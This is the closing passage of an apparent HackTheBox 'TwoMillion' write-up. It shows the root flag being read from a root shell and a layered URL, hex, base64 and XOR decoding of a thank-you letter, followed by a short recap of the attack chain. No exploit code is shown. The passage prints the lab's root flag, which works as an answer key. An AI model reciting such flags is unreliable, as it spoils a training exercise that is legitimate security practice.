If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@2million:/tmp# cat "/root/root.txt"
```

```
18328f2fb1ba0dba68580eca1ae9ee9c
```

### Home folders

We already retrieved the flag files. However, if we explore our home folder, we
notice a mysterious `thank_you.json` file:

```json
{
    "encoding": "url",
    "data": "%7B%22encoding%22:%20%22hex%22,%20%22data%22:%20%227b22656e6372797074696f6e223a2022786f72222c2022656e6372707974696f6e5f6b6579223a20224861636b546865426f78222c2022656e636f64696e67223a2022626173653634222c202264617461223a20224441514347585167424345454c43414549515173534359744168553944776f664c5552765344676461414152446e51634454414746435145423073674230556a4152596e464130494d556745596749584a51514e487a7364466d494345535145454238374267426942685a6f4468595a6441494b4e7830574c526844487a73504144594848547050517a7739484131694268556c424130594d5567504c525a594b513848537a4d614244594744443046426b6430487742694442306b4241455a4e527741596873514c554543434477424144514b4653305046307337446b557743686b7243516f464d306858596749524a41304b424470494679634347546f4b41676b344455553348423036456b4a4c4141414d4d5538524a674952446a41424279344b574334454168393048776f334178786f44777766644141454e4170594b67514742585159436a456345536f4e426b736a41524571414130385151594b4e774246497745636141515644695952525330424857674f42557374427842735a58494f457777476442774e4a30384f4c524d61537a594e4169734246694550424564304941516842437767424345454c45674e497878594b6751474258514b45437344444767554577513653424571436c6771424138434d5135464e67635a50454549425473664353634c4879314245414d31476777734346526f416777484f416b484c52305a5041674d425868494243774c574341414451386e52516f73547830774551595a5051304c495170594b524d47537a49644379594f4653305046776f345342457454776774457841454f676b4a596734574c4545544754734f414445634553635041676430447863744741776754304d2f4f7738414e6763644f6b31444844464944534d5a48576748444267674452636e4331677044304d4f4f68344d4d4141574a51514e48335166445363644857674944515537486751324268636d515263444a6745544a7878594b5138485379634444433444433267414551353041416f734368786d5153594b4e7742464951635a4a41304742544d4e525345414654674e4268387844456c6943686b7243554d474e51734e4b7745646141494d425355644144414b48475242416755775341413043676f78515241415051514a59674d644b524d4e446a424944534d635743734f4452386d4151633347783073515263456442774e4a3038624a773050446a63634444514b57434550467734344241776c4368597242454d6650416b5259676b4e4c51305153794141444446504469454445516f36484555684142556c464130434942464c534755734a304547436a634152534d42484767454651346d45555576436855714242464c4f7735464e67636461436b434344383844536374467a424241415135425241734267777854554d6650416b4c4b5538424a785244445473615253414b4553594751777030474151774731676e42304d6650414557596759574b784d47447a304b435364504569635545515578455574694e68633945304d494f7759524d4159615052554b42446f6252536f4f4469314245414d314741416d5477776742454d644d526f6359676b5a4b684d4b4348514841324941445470424577633148414d744852566f414130506441454c4d5238524f67514853794562525459415743734f445238394268416a4178517851516f464f676354497873646141414e4433514e4579304444693150517a777853415177436c67684441344f4f6873414c685a594f424d4d486a424943695250447941414630736a4455557144673474515149494e7763494d674d524f776b47443351634369554b44434145455564304351736d547738745151594b4d7730584c685a594b513858416a634246534d62485767564377353043776f334151776b424241596441554d4c676f4c5041344e44696449484363625744774f51776737425142735a5849414242454f637874464e67425950416b47537a6f4e48545a504779414145783878476b6c694742417445775a4c497731464e5159554a45454142446f6344437761485767564445736b485259715477776742454d4a4f78304c4a67344b49515151537a734f525345574769305445413433485263724777466b51516f464a78674d4d41705950416b47537a6f4e48545a504879305042686b31484177744156676e42304d4f4941414d4951345561416b434344384e467a464457436b50423073334767416a4778316f41454d634f786f4a4a6b385049415152446e514443793059464330464241353041525a69446873724242415950516f4a4a30384d4a304543427a6847623067344554774a517738784452556e4841786f4268454b494145524e7773645a477470507a774e52516f4f47794d3143773457427831694f78307044413d3d227d%22%7D"
}
```

It contains JSON data, presumably URL encoded.

Let's decode it:

```sh
❯ echo "%7B%22encoding%22:%20%22hex%22,%20%22data%22:%20%227b22656e6372797074696f6e223a2022786f72222c2022656e6372707974696f6e5f6b6579223a20224861636b546865426f78222c2022656e636f64696e67223a2022626173653634222c202264617461223a20224441514347585167424345454c43414549515173534359744168553944776f664c5552765344676461414152446e51634454414746435145423073674230556a4152596e464130494d556745596749584a51514e487a7364466d494345535145454238374267426942685a6f4468595a6441494b4e7830574c526844487a73504144594848547050517a7739484131694268556c424130594d5567504c525a594b513848537a4d614244594744443046426b6430487742694442306b4241455a4e527741596873514c554543434477424144514b4653305046307337446b557743686b7243516f464d306858596749524a41304b424470494679634347546f4b41676b344455553348423036456b4a4c4141414d4d5538524a674952446a41424279344b574334454168393048776f334178786f44777766644141454e4170594b67514742585159436a456345536f4e426b736a41524571414130385151594b4e774246497745636141515644695952525330424857674f42557374427842735a58494f457777476442774e4a30384f4c524d61537a594e4169734246694550424564304941516842437767424345454c45674e497878594b6751474258514b45437344444767554577513653424571436c6771424138434d5135464e67635a50454549425473664353634c4879314245414d31476777734346526f416777484f416b484c52305a5041674d425868494243774c574341414451386e52516f73547830774551595a5051304c495170594b524d47537a49644379594f4653305046776f345342457454776774457841454f676b4a596734574c4545544754734f414445634553635041676430447863744741776754304d2f4f7738414e6763644f6b31444844464944534d5a48576748444267674452636e4331677044304d4f4f68344d4d4141574a51514e48335166445363644857674944515537486751324268636d515263444a6745544a7878594b5138485379634444433444433267414551353041416f734368786d5153594b4e7742464951635a4a41304742544d4e525345414654674e4268387844456c6943686b7243554d474e51734e4b7745646141494d425355644144414b48475242416755775341413043676f78515241415051514a59674d644b524d4e446a424944534d635743734f4452386d4151633347783073515263456442774e4a3038624a773050446a63634444514b57434550467734344241776c4368597242454d6650416b5259676b4e4c51305153794141444446504469454445516f36484555684142556c464130434942464c534755734a304547436a634152534d42484767454651346d45555576436855714242464c4f7735464e67636461436b434344383844536374467a424241415135425241734267777854554d6650416b4c4b5538424a785244445473615253414b4553594751777030474151774731676e42304d6650414557596759574b784d47447a304b435364504569635545515578455574694e68633945304d494f7759524d4159615052554b42446f6252536f4f4469314245414d314741416d5477776742454d644d526f6359676b5a4b684d4b4348514841324941445470424577633148414d744852566f414130506441454c4d5238524f67514853794562525459415743734f445238394268416a4178517851516f464f676354497873646141414e4433514e4579304444693150517a777853415177436c67684441344f4f6873414c685a594f424d4d486a424943695250447941414630736a4455557144673474515149494e7763494d674d524f776b47443351634369554b44434145455564304351736d547738745151594b4d7730584c685a594b513858416a634246534d62485767564377353043776f334151776b424241596441554d4c676f4c5041344e44696449484363625744774f51776737425142735a5849414242454f637874464e67425950416b47537a6f4e48545a504779414145783878476b6c694742417445775a4c497731464e5159554a45454142446f6344437761485767564445736b485259715477776742454d4a4f78304c4a67344b49515151537a734f525345574769305445413433485263724777466b51516f464a78674d4d41705950416b47537a6f4e48545a504879305042686b31484177744156676e42304d4f4941414d4951345561416b434344384e467a464457436b50423073334767416a4778316f41454d634f786f4a4a6b385049415152446e514443793059464330464241353041525a69446873724242415950516f4a4a30384d4a304543427a6847623067344554774a517738784452556e4841786f4268454b494145524e7773645a477470507a774e52516f4f47794d3143773457427831694f78307044413d3d227d%22%7D" | python -c "import sys, urllib.parse; print(urllib.parse.unquote(sys.stdin.read()))" | jq "." --indent "4"
```

```json
{
    "encoding": "hex",
    "data": "7b22656e6372797074696f6e223a2022786f72222c2022656e6372707974696f6e5f6b6579223a20224861636b546865426f78222c2022656e636f64696e67223a2022626173653634222c202264617461223a20224441514347585167424345454c43414549515173534359744168553944776f664c5552765344676461414152446e51634454414746435145423073674230556a4152596e464130494d556745596749584a51514e487a7364466d494345535145454238374267426942685a6f4468595a6441494b4e7830574c526844487a73504144594848547050517a7739484131694268556c424130594d5567504c525a594b513848537a4d614244594744443046426b6430487742694442306b4241455a4e527741596873514c554543434477424144514b4653305046307337446b557743686b7243516f464d306858596749524a41304b424470494679634347546f4b41676b344455553348423036456b4a4c4141414d4d5538524a674952446a41424279344b574334454168393048776f334178786f44777766644141454e4170594b67514742585159436a456345536f4e426b736a41524571414130385151594b4e774246497745636141515644695952525330424857674f42557374427842735a58494f457777476442774e4a30384f4c524d61537a594e4169734246694550424564304941516842437767424345454c45674e497878594b6751474258514b45437344444767554577513653424571436c6771424138434d5135464e67635a50454549425473664353634c4879314245414d31476777734346526f416777484f416b484c52305a5041674d425868494243774c574341414451386e52516f73547830774551595a5051304c495170594b524d47537a49644379594f4653305046776f345342457454776774457841454f676b4a596734574c4545544754734f414445634553635041676430447863744741776754304d2f4f7738414e6763644f6b31444844464944534d5a48576748444267674452636e4331677044304d4f4f68344d4d4141574a51514e48335166445363644857674944515537486751324268636d515263444a6745544a7878594b5138485379634444433444433267414551353041416f734368786d5153594b4e7742464951635a4a41304742544d4e525345414654674e4268387844456c6943686b7243554d474e51734e4b7745646141494d425355644144414b48475242416755775341413043676f78515241415051514a59674d644b524d4e446a424944534d635743734f4452386d4151633347783073515263456442774e4a3038624a773050446a63634444514b57434550467734344241776c4368597242454d6650416b5259676b4e4c51305153794141444446504469454445516f36484555684142556c464130434942464c534755734a304547436a634152534d42484767454651346d45555576436855714242464c4f7735464e67636461436b434344383844536374467a424241415135425241734267777854554d6650416b4c4b5538424a785244445473615253414b4553594751777030474151774731676e42304d6650414557596759574b784d47447a304b435364504569635545515578455574694e68633945304d494f7759524d4159615052554b42446f6252536f4f4469314245414d314741416d5477776742454d644d526f6359676b5a4b684d4b4348514841324941445470424577633148414d744852566f414130506441454c4d5238524f67514853794562525459415743734f445238394268416a4178517851516f464f676354497873646141414e4433514e4579304444693150517a777853415177436c67684441344f4f6873414c685a594f424d4d486a424943695250447941414630736a4455557144673474515149494e7763494d674d524f776b47443351634369554b44434145455564304351736d547738745151594b4d7730584c685a594b513858416a634246534d62485767564377353043776f334151776b424241596441554d4c676f4c5041344e44696449484363625744774f51776737425142735a5849414242454f637874464e67425950416b47537a6f4e48545a504779414145783878476b6c694742417445775a4c497731464e5159554a45454142446f6344437761485767564445736b485259715477776742454d4a4f78304c4a67344b49515151537a734f525345574769305445413433485263724777466b51516f464a78674d4d41705950416b47537a6f4e48545a504879305042686b31484177744156676e42304d4f4941414d4951345561416b434344384e467a464457436b50423073334767416a4778316f41454d634f786f4a4a6b385049415152446e514443793059464330464241353041525a69446873724242415950516f4a4a30384d4a304543427a6847623067344554774a517738784452556e4841786f4268454b494145524e7773645a477470507a774e52516f4f47794d3143773457427831694f78307044413d3d227d"
}
```

Now we have data hex encoded.

Let's decode it once again:

```sh
❯ echo "7b22656e6372797074696f6e223a2022786f72222c2022656e6372707974696f6e5f6b6579223a20224861636b546865426f78222c2022656e636f64696e67223a2022626173653634222c202264617461223a20224441514347585167424345454c43414549515173534359744168553944776f664c5552765344676461414152446e51634454414746435145423073674230556a4152596e464130494d556745596749584a51514e487a7364466d494345535145454238374267426942685a6f4468595a6441494b4e7830574c526844487a73504144594848547050517a7739484131694268556c424130594d5567504c525a594b513848537a4d614244594744443046426b6430487742694442306b4241455a4e527741596873514c554543434477424144514b4653305046307337446b557743686b7243516f464d306858596749524a41304b424470494679634347546f4b41676b344455553348423036456b4a4c4141414d4d5538524a674952446a41424279344b574334454168393048776f334178786f44777766644141454e4170594b67514742585159436a456345536f4e426b736a41524571414130385151594b4e774246497745636141515644695952525330424857674f42557374427842735a58494f457777476442774e4a30384f4c524d61537a594e4169734246694550424564304941516842437767424345454c45674e497878594b6751474258514b45437344444767554577513653424571436c6771424138434d5135464e67635a50454549425473664353634c4879314245414d31476777734346526f416777484f416b484c52305a5041674d425868494243774c574341414451386e52516f73547830774551595a5051304c495170594b524d47537a49644379594f4653305046776f345342457454776774457841454f676b4a596734574c4545544754734f414445634553635041676430447863744741776754304d2f4f7738414e6763644f6b31444844464944534d5a48576748444267674452636e4331677044304d4f4f68344d4d4141574a51514e48335166445363644857674944515537486751324268636d515263444a6745544a7878594b5138485379634444433444433267414551353041416f734368786d5153594b4e7742464951635a4a41304742544d4e525345414654674e4268387844456c6943686b7243554d474e51734e4b7745646141494d425355644144414b48475242416755775341413043676f78515241415051514a59674d644b524d4e446a424944534d635743734f4452386d4151633347783073515263456442774e4a3038624a773050446a63634444514b57434550467734344241776c4368597242454d6650416b5259676b4e4c51305153794141444446504469454445516f36484555684142556c464130434942464c534755734a304547436a634152534d42484767454651346d45555576436855714242464c4f7735464e67636461436b434344383844536374467a424241415135425241734267777854554d6650416b4c4b5538424a785244445473615253414b4553594751777030474151774731676e42304d6650414557596759574b784d47447a304b435364504569635545515578455574694e68633945304d494f7759524d4159615052554b42446f6252536f4f4469314245414d314741416d5477776742454d644d526f6359676b5a4b684d4b4348514841324941445470424577633148414d744852566f414130506441454c4d5238524f67514853794562525459415743734f445238394268416a4178517851516f464f676354497873646141414e4433514e4579304444693150517a777853415177436c67684441344f4f6873414c685a594f424d4d486a424943695250447941414630736a4455557144673474515149494e7763494d674d524f776b47443351634369554b44434145455564304351736d547738745151594b4d7730584c685a594b513858416a634246534d62485767564377353043776f334151776b424241596441554d4c676f4c5041344e44696449484363625744774f51776737425142735a5849414242454f637874464e67425950416b47537a6f4e48545a504779414145783878476b6c694742417445775a4c497731464e5159554a45454142446f6344437761485767564445736b485259715477776742454d4a4f78304c4a67344b49515151537a734f525345574769305445413433485263724777466b51516f464a78674d4d41705950416b47537a6f4e48545a504879305042686b31484177744156676e42304d4f4941414d4951345561416b434344384e467a464457436b50423073334767416a4778316f41454d634f786f4a4a6b385049415152446e514443793059464330464241353041525a69446873724242415950516f4a4a30384d4a304543427a6847623067344554774a517738784452556e4841786f4268454b494145524e7773645a477470507a774e52516f4f47794d3143773457427831694f78307044413d3d227d" | xxd -r -p | jq "." --indent "4"
```

```json
{
    "encryption": "xor",
    "encrpytion_key": "HackTheBox",
    "encoding": "base64",
    "data": "DAQCGXQgBCEELCAEIQQsSCYtAhU9DwofLURvSDgdaAARDnQcDTAGFCQEB0sgB0UjARYnFA0IMUgEYgIXJQQNHzsdFmICESQEEB87BgBiBhZoDhYZdAIKNx0WLRhDHzsPADYHHTpPQzw9HA1iBhUlBA0YMUgPLRZYKQ8HSzMaBDYGDD0FBkd0HwBiDB0kBAEZNRwAYhsQLUECCDwBADQKFS0PF0s7DkUwChkrCQoFM0hXYgIRJA0KBDpIFycCGToKAgk4DUU3HB06EkJLAAAMMU8RJgIRDjABBy4KWC4EAh90Hwo3AxxoDwwfdAAENApYKgQGBXQYCjEcESoNBksjAREqAA08QQYKNwBFIwEcaAQVDiYRRS0BHWgOBUstBxBsZXIOEwwGdBwNJ08OLRMaSzYNAisBFiEPBEd0IAQhBCwgBCEELEgNIxxYKgQGBXQKECsDDGgUEwQ6SBEqClgqBA8CMQ5FNgcZPEEIBTsfCScLHy1BEAM1GgwsCFRoAgwHOAkHLR0ZPAgMBXhIBCwLWCAADQ8nRQosTx0wEQYZPQ0LIQpYKRMGSzIdCyYOFS0PFwo4SBEtTwgtExAEOgkJYg4WLEETGTsOADEcEScPAgd0DxctGAwgT0M/Ow8ANgcdOk1DHDFIDSMZHWgHDBggDRcnC1gpD0MOOh4MMAAWJQQNH3QfDScdHWgIDQU7HgQ2BhcmQRcDJgETJxxYKQ8HSycDDC4DC2gAEQ50AAosChxmQSYKNwBFIQcZJA0GBTMNRSEAFTgNBh8xDEliChkrCUMGNQsNKwEdaAIMBSUdADAKHGRBAgUwSAA0CgoxQRAAPQQJYgMdKRMNDjBIDSMcWCsODR8mAQc3Gx0sQRcEdBwNJ08bJw0PDjccDDQKWCEPFw44BAwlChYrBEMfPAkRYgkNLQ0QSyAADDFPDiEDEQo6HEUhABUlFA0CIBFLSGUsJ0EGCjcARSMBHGgEFQ4mEUUvChUqBBFLOw5FNgcdaCkCCD88DSctFzBBAAQ5BRAsBgwxTUMfPAkLKU8BJxRDDTsaRSAKESYGQwp0GAQwG1gnB0MfPAEWYgYWKxMGDz0KCSdPEicUEQUxEUtiNhc9E0MIOwYRMAYaPRUKBDobRSoODi1BEAM1GAAmTwwgBEMdMRocYgkZKhMKCHQHA2IADTpBEwc1HAMtHRVoAA0PdAELMR8ROgQHSyEbRTYAWCsODR89BhAjAxQxQQoFOgcTIxsdaAAND3QNEy0DDi1PQzwxSAQwClghDA4OOhsALhZYOBMMHjBICiRPDyAAF0sjDUUqDg4tQQIINwcIMgMROwkGD3QcCiUKDCAEEUd0CQsmTw8tQQYKMw0XLhZYKQ8XAjcBFSMbHWgVCw50Cwo3AQwkBBAYdAUMLgoLPA4NDidIHCcbWDwOQwg7BQBsZXIABBEOcxtFNgBYPAkGSzoNHTZPGyAAEx8xGkliGBAtEwZLIw1FNQYUJEEABDocDCwaHWgVDEskHRYqTwwgBEMJOx0LJg4KIQQQSzsORSEWGi0TEA43HRcrGwFkQQoFJxgMMApYPAkGSzoNHTZPHy0PBhk1HAwtAVgnB0MOIAAMIQ4UaAkCCD8NFzFDWCkPB0s3GgAjGx1oAEMcOxoJJk8PIAQRDnQDCy0YFC0FBA50ARZiDhsrBBAYPQoJJ08MJ0ECBzhGb0g4ETwJQw8xDRUnHAxoBhEKIAERNwsdZGtpPzwNRQoOGyM1Cw4WBx1iOx0pDA=="
}
```

Now the data is not only Base64 encoded, but also XOR'ed with the key
`HackTheBox`!

Let's decrypt it:

```sh
❯ echo "DAQCGXQgBCEELCAEIQQsSCYtAhU9DwofLURvSDgdaAARDnQcDTAGFCQEB0sgB0UjARYnFA0IMUgEYgIXJQQNHzsdFmICESQEEB87BgBiBhZoDhYZdAIKNx0WLRhDHzsPADYHHTpPQzw9HA1iBhUlBA0YMUgPLRZYKQ8HSzMaBDYGDD0FBkd0HwBiDB0kBAEZNRwAYhsQLUECCDwBADQKFS0PF0s7DkUwChkrCQoFM0hXYgIRJA0KBDpIFycCGToKAgk4DUU3HB06EkJLAAAMMU8RJgIRDjABBy4KWC4EAh90Hwo3AxxoDwwfdAAENApYKgQGBXQYCjEcESoNBksjAREqAA08QQYKNwBFIwEcaAQVDiYRRS0BHWgOBUstBxBsZXIOEwwGdBwNJ08OLRMaSzYNAisBFiEPBEd0IAQhBCwgBCEELEgNIxxYKgQGBXQKECsDDGgUEwQ6SBEqClgqBA8CMQ5FNgcZPEEIBTsfCScLHy1BEAM1GgwsCFRoAgwHOAkHLR0ZPAgMBXhIBCwLWCAADQ8nRQosTx0wEQYZPQ0LIQpYKRMGSzIdCyYOFS0PFwo4SBEtTwgtExAEOgkJYg4WLEETGTsOADEcEScPAgd0DxctGAwgT0M/Ow8ANgcdOk1DHDFIDSMZHWgHDBggDRcnC1gpD0MOOh4MMAAWJQQNH3QfDScdHWgIDQU7HgQ2BhcmQRcDJgETJxxYKQ8HSycDDC4DC2gAEQ50AAosChxmQSYKNwBFIQcZJA0GBTMNRSEAFTgNBh8xDEliChkrCUMGNQsNKwEdaAIMBSUdADAKHGRBAgUwSAA0CgoxQRAAPQQJYgMdKRMNDjBIDSMcWCsODR8mAQc3Gx0sQRcEdBwNJ08bJw0PDjccDDQKWCEPFw44BAwlChYrBEMfPAkRYgkNLQ0QSyAADDFPDiEDEQo6HEUhABUlFA0CIBFLSGUsJ0EGCjcARSMBHGgEFQ4mEUUvChUqBBFLOw5FNgcdaCkCCD88DSctFzBBAAQ5BRAsBgwxTUMfPAkLKU8BJxRDDTsaRSAKESYGQwp0GAQwG1gnB0MfPAEWYgYWKxMGDz0KCSdPEicUEQUxEUtiNhc9E0MIOwYRMAYaPRUKBDobRSoODi1BEAM1GAAmTwwgBEMdMRocYgkZKhMKCHQHA2IADTpBEwc1HAMtHRVoAA0PdAELMR8ROgQHSyEbRTYAWCsODR89BhAjAxQxQQoFOgcTIxsdaAAND3QNEy0DDi1PQzwxSAQwClghDA4OOhsALhZYOBMMHjBICiRPDyAAF0sjDUUqDg4tQQIINwcIMgMROwkGD3QcCiUKDCAEEUd0CQsmTw8tQQYKMw0XLhZYKQ8XAjcBFSMbHWgVCw50Cwo3AQwkBBAYdAUMLgoLPA4NDidIHCcbWDwOQwg7BQBsZXIABBEOcxtFNgBYPAkGSzoNHTZPGyAAEx8xGkliGBAtEwZLIw1FNQYUJEEABDocDCwaHWgVDEskHRYqTwwgBEMJOx0LJg4KIQQQSzsORSEWGi0TEA43HRcrGwFkQQoFJxgMMApYPAkGSzoNHTZPHy0PBhk1HAwtAVgnB0MOIAAMIQ4UaAkCCD8NFzFDWCkPB0s3GgAjGx1oAEMcOxoJJk8PIAQRDnQDCy0YFC0FBA50ARZiDhsrBBAYPQoJJ08MJ0ECBzhGb0g4ETwJQw8xDRUnHAxoBhEKIAERNwsdZGtpPzwNRQoOGyM1Cw4WBx1iOx0pDA==" | base64 -d | python -c 'import sys; data = sys.stdin.read(); key = "HackTheBox"; decoded = "".join([chr(ord(data[i]) ^ ord(key[i % len(key)])) for i in range(len(data))]); print(decoded)'
```

```
Dear HackTheBox Community,

We are thrilled to announce a momentous milestone in our journey together. With immense joy and gratitude, we celebrate the achievement of reaching 2 million remarkable users! This incredible feat would not have been possible without each and every one of you.

From the very beginning, HackTheBox has been built upon the belief that knowledge sharing, collaboration, and hands-on experience are fundamental to personal and professional growth. Together, we have fostered an environment where innovation thrives and skills are honed. Each challenge completed, each machine conquered, and every skill learned has contributed to the collective intelligence that fuels this vibrant community.

To each and every member of the HackTheBox community, thank you for being a part of this incredible journey. Your contributions have shaped the very fabric of our platform and inspired us to continually innovate and evolve. We are immensely proud of what we have accomplished together, and we eagerly anticipate the countless milestones yet to come.

Here's to the next chapter, where we will continue to push the boundaries of cybersecurity, inspire the next generation of ethical hackers, and create a world where knowledge is accessible to all.

With deepest gratitude,

The HackTheBox Team
```

It's actually a message from the HTB team!

# Afterwords



That's it for this box! 🎉

I rated the user flag as 'Not too easy' and the root flag as 'Easy'. The
foothold was quite lengthy to obtain, since it required several steps to obtain.
First we had to find a way to create an account, then we had to become `admin`
on the website, and then we had to find a vulnerability to get RCE. However, the
privilege escalation was much easier, and there was a hint pointing to a
specific CVE. It was then straightforward to exploit to get `root`.

Thanks for reading!
